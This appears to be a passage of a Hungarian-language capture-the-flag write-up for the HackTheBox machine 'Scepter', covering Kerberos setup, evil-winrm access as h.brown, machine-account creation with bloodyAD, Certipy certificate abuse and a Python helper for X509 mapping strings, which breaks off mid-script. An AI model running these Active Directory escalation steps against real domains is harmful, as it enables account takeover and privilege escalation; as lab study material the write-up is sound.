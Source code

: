 
## krb5.conf szerkesztés

```ini
[libdefaults]
    default_realm = SCEPTER.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = true

[realms]
    SCEPTER.HTB = {
        kdc = dc01.scepter.htb
        admin_server = dc01.scepter.htb
    }

[domain_realm]
    .scepter.htb = SCEPTER.HTB
    scepter.htb = SCEPTER.HTB
```

---

## evil-winrm h.brown userrel

```bash
export KRB5CCNAME=h.brown.ccache
evil-winrm -i dc01.scepter.htb -u h.brown
```

**User flag pipa!**

---

## Privilege escalation – új gépfiók létrehozás, Shadow Credentials

```bash
bloodyAD --host dc01.scepter.htb -d scepter.htb -u a.carter -p 'NoSecHere!' --dc-ip 10.10.11.65 add computer nosecpc 'Password123'
```

**Certipy find + req → géptanúsítvány beszerzés**

**openssl x509 -in nosecpc.crt -noout -serial -issuer**

---

## X509 string generálás (Python)

```python
import argparse

def convert(serial, issuer):
    serial = serial.replace(':', '').lower()
    serial_bytes = bytearray.fromhex(serial)
    serial_bytes.reverse()
    serial_hex = ''.join(['%02x' % b for b in serial_bytes])
    issuer_parts = issuer.split(',')
    issuer_parts = [p.strip() for p in issuer_parts]
    issuer_parts.reverse()
    issuer_str = ','.join(issuer_parts)
    print(f"X509:<I>{issuer_str}<SR>{serial_hex}")

if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument('-serial', required=True, help='Certificate serial (colon separated)')
```